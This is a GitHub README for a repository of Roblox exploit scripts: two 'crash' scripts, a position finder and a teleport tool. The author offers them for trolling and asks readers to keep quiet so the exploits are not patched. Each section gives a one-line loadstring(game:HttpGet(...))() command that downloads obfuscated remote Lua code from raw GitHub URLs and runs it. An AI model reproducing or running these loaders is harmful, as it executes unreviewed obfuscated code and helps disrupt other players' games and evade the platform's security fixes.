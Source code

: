 # Starting
I'll be posting scripts into this repository and adding the information in the readme.

The scripts will be put into sections. The scripts I put into here are meant for pranking in irl and trolling.
Don't go around talking about this before they get patched 💀 No one want's scripts to get patched ;)

Contact me on discord (**folixx**) or twitter (**zxfolix**)
I honestly don't put effort on updating the readme, so don't expect me to add the info right away.

# Crash Script

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/universal.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/universal.lua)


![crash](https://github.com/wtfplayer/redemption/assets/136761546/0a4cb2a3-5364-4c19-b013-eb98bb20982b)

# Crash Script v2
In the 2nd version the script will execute after 10 seconds (**check console**)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/universalv2.lua"))()
```

[SOURCE OBFUSCATED V2](https://raw.githubusercontent.com/wtfplayer/redemption/main/universalv2.lua)


![nerds](https://github.com/wtfplayer/redemption/assets/136761546/852bf971-067c-4917-81b8-b05191a5ad1e)

# Position Finder

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/positionfinder.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/positionfinder.lua)

![positionfinder](https://github.com/wtfplayer/redemption/assets/136761546/b9953f50-d251-4f1c-8256-12012f4efe6d)

# Voidplate
**Press E to teleport to the baseplate and press F to teleport to the voidplate** (Only works in literal baseplate)

**Credits to voidplate owner** - https://github.com/Raisincains/Scripts

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/literalbaseplate.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/literalbaseplate.lua)

![voidplate](https://github.com/wtfplayer/redemption/assets/136761546/0c15e5d6-a1d8-4d31-9218-8310aee58bf9)

**Owner's Roblox** - https://www.roblox.com/users/3784100047/profile
